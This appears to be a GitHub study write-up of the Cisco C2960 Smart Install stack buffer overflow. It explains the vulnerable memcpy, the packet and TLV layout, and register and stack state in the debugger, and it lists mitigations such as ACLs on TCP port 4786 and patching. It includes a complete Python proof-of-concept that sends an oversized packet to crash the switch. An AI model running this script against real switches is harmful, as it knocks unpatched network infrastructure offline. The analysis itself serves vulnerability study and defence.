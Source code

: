 ### INTRODUCTION
why is C2960 targeted by attackers/security researchers?
* affordable and wide spread model

what is the main characteristic of C2960 to be easy to exploit?
* there're features listed online but one important feature of Cisco IOS is its behavior in case an exception condition occurs if something goes wrong, Cisco IOS reboots a device

### REVISION
what is buffer?
* buffer is a small memory allocated specifically for input, used when a process or a program is executed

what is buffer overflow attack?
* when attacker enters arbitrary input to buffer, long enough to overrun the buffer's boundary and overwrite adjacent memory location
* stack based buffer overflow in short is also known as buffer overflow

why do buffer overflow take place?
* mostly due to bad programming written, use of unsafe c function and unsanitized input

what is watchdog?
* a timer which automatically reboot the system if it detects some programs are not working




### SETUP
`Host A         <-----------------> C2960 SI PoE 24 Switch (c2960-lanlitek9-mz.122-58.SE2.bin)`<br/>
`192.168.200.2      <----------------->  192.168.200.1`

### HOW TO CHECK IF SWITCH IS VULNERABLE
`SW>show vstack config`<br/>
`SW>show tcp brief all`




### smi_ibc_init_discovery_BoF.py.PY BREAKDOWN

    import socket 
    import struct 
    from optparse import OptionParser 

    # Parse the target options 
    parser = OptionParser() 
    parser.add_option("-t", "--target", dest="target", help="Smart Install Client", default="192.168.1.1")  
    parser.add_option("-p", "--port", dest="port", type="int", help="Port of Client", default=4786)  
    (options, args) = parser.parse_args() 

    def craft_tlv(t, v, t_fmt='!I', l_fmt='!I'): 
      return struct.pack(t_fmt, t) + struct.pack(l_fmt, len(v)) + v 

    def send_packet(sock, packet): 
      sock.send(packet)   

    def receive(sock):  
      return sock.recv() 

    if __name__ == "__main__": 

    print "[*] Connecting to Smart Install Client ", options.target, "port", options.port 

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    con.connect((options.target, options.port)) 

    payload = 'BBBB' * 44  
    shellcode = 'D' * 2048 

    data = 'A' * 36 + struct.pack('!I', len(payload) + len(shellcode) + 40) + payload 

    tlv_1 = craft_tlv(0x00000001, data)  
    tlv_2 = shellcode 

    hdr =  '\x00\x00\x00\x01'                                   # msg_from
    hdr += '\x00\x00\x00\x01'                                   # version
    hdr += '\x00\x00\x00\x07'                                   # msg_hdr_type
    hdr += struct.pack('>I', len(data))                         # data_length

    pkt = hdr + tlv_1 + tlv_2 

    print "[*] Send a malicious packet"  
    send_packet(con, pkt)



what is the objective of the script?
* the <SMI IBC Server Process> process contains a Smart Install Client implementation code
* the Smart Install Client starts a server on the TCP(4786) port (opened by default) to interact with the Smart Install Director
* a specially crafted malicious message ibd_init_discovery_msg for the stack-based buffer overflow occurs

what is struct.park(function)?
* it packs a list of values into a string representation of the specified type
* !'I' --> format string for network also means big-endian
* fmt ---> format string

what is tlv?
* encoding scheme used within the data communication protocol
* for data formatting. when we want to send data to receiver, we prepare a TLV package that contains Tag-Length-Value datas
  1. data type/tag
  2. data length/size
  3. data value/content of the data
  
* format string for big-endian ---> (>I) 
* 4+4+4+4=16bytes for hdr ----> header which consists of |msg-from|version|msg_hdr-type|data_length|
* 36+4+(4*44)=216bytes  ---> TLV Data Value
* a single packet consists of | header (16 bytes)| TLV_1 (224 bytes)|TLV (2048 bytes) |


### CRAFTED PACKET STRUCTURE FROM THE SCRIPT
![packet structure](https://user-images.githubusercontent.com/23307275/39845863-de67a538-542a-11e8-9c23-7d5b38e13e75.PNG)


### WIRESHARK PACKET SNIFFING
![wireshark1](https://user-images.githubusercontent.com/23307275/39845865-dec1d724-542a-11e8-9ece-42d45e9f5526.PNG)

<br/>

![wireshark2](https://user-images.githubusercontent.com/23307275/39845860-ddc64f62-542a-11e8-90f1-d5e0707524b8.PNG)


### FUNCTION OF EXPOLIT IS LOCATED
* smi_ibc_handle_ibd_init_discovery_msg, SUB_B258CC

![overview](https://user-images.githubusercontent.com/23307275/39845857-d822a452-542a-11e8-9c19-e39ffbe45655.PNG)
![sub_routine](https://user-images.githubusercontent.com/23307275/39845855-d7c60620-542a-11e8-8bf1-408e90fcfcf3.PNG)


  R3: ptr to the tlv_type <br/>
  R4: length of tlv <br/>
  R5: ptr to the 16 bytes header <br/>
  R6: ptr to the TLV data <br/>
 
  ![allr](https://user-images.githubusercontent.com/23307275/39849919-5343e194-5441-11e8-809d-e86cc2236fda.PNG)
  <br/>
  ![r5](https://user-images.githubusercontent.com/23307275/39849921-57100046-5441-11e8-84e5-4cd2514e0378.PNG)
  <br/>
  ![r6](https://user-images.githubusercontent.com/23307275/39845864-de93c1fe-542a-11e8-922d-35b208c18658.PNG)
  <br/>

### LOGIC AND THE EXACT PLACE OF EXPLOIT

Focus 1:
``if (tlv_type == 1) {``
  ``#read tlv_length information``
``}``

Focus 2:
`if(tlv_length != 0) {`
  `#size = tlv_length     <-----(LOOPHOLE) NO VALIDATION CHECK`
`}

Focus 3:
`if (size != 0) {`
 `do {`
   `memcpy (src, dest, size);`
   `size-=1;`
 `}while (size!=0)`
`}`

* size is saved as a parameter for later memcpy (src, dest, size)
* tlv-type number assignment, http://irl.cs.ucla.edu/~cawka/spec/types.html
* size is the number of bytes to be copied
* fetch and copy data without verification
* just copy without checking if the size of the data exceed the allocated size of buffer <---- buffer overflow will occurs

### BEFORE AND AFTER BUFFER OVERFLOW IN LOW-LEVEL
![from the code logic](https://user-images.githubusercontent.com/23307275/39845862-de324c8a-542a-11e8-9df2-02a10f7cfb7d.PNG)

  R3 is the buffer length of 0x58 #dst <br/>
  R4 is the content of the TlL data #scr <br/>
  R5 is the tlv length #size <br/>

  memcpy (src, dest, size)

* 0xd8 (216 bytes) to be copied to the allocated 0x58 (88 bytes) buffer  <--- buffer overflow occurs
* R4 (data content) to R3 (buffer) do while the size is not 0 (referenced back to focus 1)

![before overflow](https://user-images.githubusercontent.com/23307275/39845861-de072bfe-542a-11e8-8e33-585ee1d6aace.PNG)

* the figure above shows that the contents of 0xd8 bytes starting from 0x318e890 will be copied into the buffers starting from 0x3df24a8 in the stack frame.

* the above figure shows the contents of the function stack frame after the memcpy operation. The stack frame of this function is 0x58 bytes in size. After the function is overwritten by 0x42424242, the pointer of the execution code area is skipped resulting a buffer overflow situation. 

* the content of the register changes along with the CPU instructions
* register is a small set of data holding places that are part of the computer processor
* stack based buffer flow in this case
* conclude (summarize) the result of crash

### MIGITATIONS
1. no vstack command to disable the smart installed function (cannot be persistent, require reconfigure after reboot)
2. use ACL to filter traffic from tcp port 4786, or limit through Control Panel Policy (CoPP)
3. patch and upgrade
4. use new plug and play (Cisco Network Plug and Play) solution instead

### References
* https://embedi.com/blog/cisco-smart-install-remote-code-execution/
* https://www.anquanke.com/post/id/105473

    <br/>
    ![after overflow](https://user-images.githubusercontent.com/23307275/39849799-a6205f1a-5440-11e8-9dd5-3886c3cb1da3.PNG)
